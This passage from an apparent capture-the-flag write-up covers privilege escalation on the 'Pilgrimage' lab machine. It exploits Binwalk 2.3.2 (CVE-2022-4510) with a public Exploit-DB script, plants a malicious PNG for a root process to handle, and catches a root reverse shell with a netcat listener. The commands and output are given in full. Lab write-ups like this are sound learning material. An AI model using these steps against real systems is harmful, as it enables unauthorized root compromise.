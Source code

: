 ```
		fi
	done
done
```

Further anaylysis shows that it is executing binwalk and if we check binwalk we can find its version number that has an exploit for it.
```
emily@pilgrimage:/tmp$ binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

Follow the directions and transfer the exploit to the victim.

https://www.exploit-db.com/exploits/51249

```
emily@pilgrimage:/tmp$ python3 51249.py /var/www/pilgrimage.htb/shrunk/64a3308894bdb.png 10.10.14.130 555
```

After transferring any image, run the exploit

```
mily@pilgrimage:/tmp$ python3 51249.py exploit1.png 10.10.14.130 555

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```

Transfer the image back into the pilgrimage.htb shrunk folder

```
emily@pilgrimage:/tmp$ cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
```

The listener should now capture the connection and we can grab the flag.

``` 
└──╼ [★]$ sudo nc -lvnp 555
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::555
Ncat: Listening on 0.0.0.0:555
Ncat: Connection from 10.129.150.112.
Ncat: Connection from 10.129.150.112:57650.
id
uid=0(root) gid=0(root) groups=0(root)
ls
_64a3308894bdb.png.extracted
_binwalk_exploit.png.extracted
pwd
/root/quarantine
```